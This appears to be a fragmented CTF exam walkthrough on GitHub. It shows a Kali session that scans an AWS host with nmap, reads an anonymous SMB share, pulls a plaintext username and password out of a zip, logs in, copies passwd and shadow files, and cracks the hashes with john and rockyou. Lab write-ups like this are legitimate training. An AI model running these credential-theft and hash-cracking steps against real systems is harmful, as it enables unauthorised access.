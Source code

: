 # felix-bett
└─$ nmap -sV -Pn 44.202.86.42                                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 11:31 EDT              
Nmap scan report for ec2-44-202-86-42.compute-1.amazonaws.com (44.202.86.42) 
Host is up (0.32s latency).                                                  
Not shown: 996 filtered tcp ports (no-response)                              
PORT    STATE SERVICE     VERSION                                            
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)                                                                  
80/tcp  open  http        SimpleHTTPServer 0.6 (Python 3.12.3)               
139/tcp open  netbios-ssn Samba smbd 4                                       
445/tcp open  netbios-ssn Samba smbd 4                                       
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                      
                                                                             
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                            
Nmap d![Screenshot_2025-06-28_11_32_42](https://github.com/user-attachments/assets/0f51e712-d07e-43c2-bfda-bb7c9fb0846d)
one: 1 IP address (1 host up) scanned in 33.18 seconds 

2   139/tcp open  netbios-ssn Sa![20250315_215537](https://github.com/user-attachments/assets/ab60a871-5014-4c03-8c51-281a45211641)
mba smbd 4
3
llyspirit㉿kali)-[~]
└─$ curl http://44.202.86.42:80/flag/index.html
shujaa{web_flag_8080}

┌──(hollyspirit㉿kali)-[~]
![Screenshot_2025-06-28_11_46_54](https://github.com/user-attachments/assets/5424116d-e58e-4c29-b4f8-7b9941d7a797)

 4 
 445/tcp open  netbios-ssn Samba smbd 4
 




6
 
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      
        midexam         Disk      
        IPC$            IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 44.202.86.42 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
![Screenshot_2025-06-28_12_02_50](https://github.com/user-attachments/assets/674130a6-0389-470a-bdb7-76d8b5ebbb76)

7 
2
print$          Disk      
        midexam         Disk      
        IPC$            IPC   
8
 smbclient //44.202.86.42/IPC$ -N                                                    
Try "help" to get a list of possible commands.
smb: \> 
![Screenshot_2025-06-28_12_10_04](https://github.com/user-attachments/assets/a706cfd0-605c-4c62-9be6-e9d77db02e78)
9
$ smbclient //44.202.86.42/midexam -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 28 10:42:27 2025
  ..                                  D        0  Sat Jun 28 10:42:27 2025
  examdata                            D        0  Sat Jun 28 10:42:27 2025

                7034376 blocks of size 1024. 3570612 blocks available
smb: \> ls
![Screenshot_2025-06-28_12_12_27](https://github.com/user-attachments/assets/2151f395-41f9-4b82-be40-5b9f7b2ee1af)

10
┌──(hollyspirit㉿kali)-[~]
└─$ unzip project.zip                                                                  
Archive:  project.zip
 extracting: flag.txt                
 extracting: creds.txt               

┌──(hollyspirit㉿kali)-[~]
└─$ cat flag.txt                                                                       
shujaa{file_extract_flag}
![Screenshot_2025-06-28_12_27_00](https://github.com/user-attachments/assets/dc1cf4e9-95a8-4ff7-9b0a-a9fe6f9ab6d8)

11
└─$ cat creds.txt                                                                      
user:malisafi
password:DuncanIsHimL0L
![Screenshot_2025-06-28_12_29_21](https://github.com/user-attachments/assets/d6a66804-4dcf-4048-bf71-c730bc8d0b4f)

12
malisafi@ip-172-31-94-184:~$ cat flag.txt
shujaa{home_directory_flag}
![Screenshot_2025-06-28_12_32_52](https://github.com/user-attachments/assets/59a9d7be-e922-4916-b14a-1ae4fcd479dc)
13
base64file
![Screenshot_2025-06-28_12_35_34](https://github.com/user-attachments/assets/3e5c29b8-73be-440f-9a61-00f59a60ce06)

14
shujaa{decode_th1s_fl4g}
![Screenshot_2025-06-28_12_36_55](https://github.com/user-attachments/assets/02d4b63c-bd04-4934-ae7d-949d26a87f62)

15
malisafi@ip-172-31-94-184:~$ grep -i shujaa grepme.txt
shujaa{gr3p_th3_r1ght_l1n3}
![Screenshot_2025-06-28_12_38_11](https://github.com/user-attachments/assets/0db8d9f2-278c-4d6c-9d1b-8547f65806f9)
16
malisafi@ip-172-31-94-184:~$ ./checkflag examfile.txt
shujaa{vim_trigger_master}
![Screenshot_2025-06-28_12_40_00](https://github.com/user-attachments/assets/7bfbab72-51e7-41bb-8c2f-481cfe23cc7d)
17
./checkifcompressed examfile.zip
![Screenshot_2025-06-28_12_43_02](https://github.com/user-attachments/assets/63e716ac-bf47-4cb0-85af-5e563cc42f16)
18
-rw-rw-r-- 1 malisafi malisafi 1946 Jun 28 16:32 passwd
-rw-rw-r-- 1 malisafi malisafi 1124 Jun 28 16:17 shadow
![Screenshot_2025-06-28_12_44_36](https://github.com/user-attachments/assets/ade13a10-9818-4d1a-bab0-5fa9f4cdb1b3)
19
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt
20/home/examadmin/flag.txt

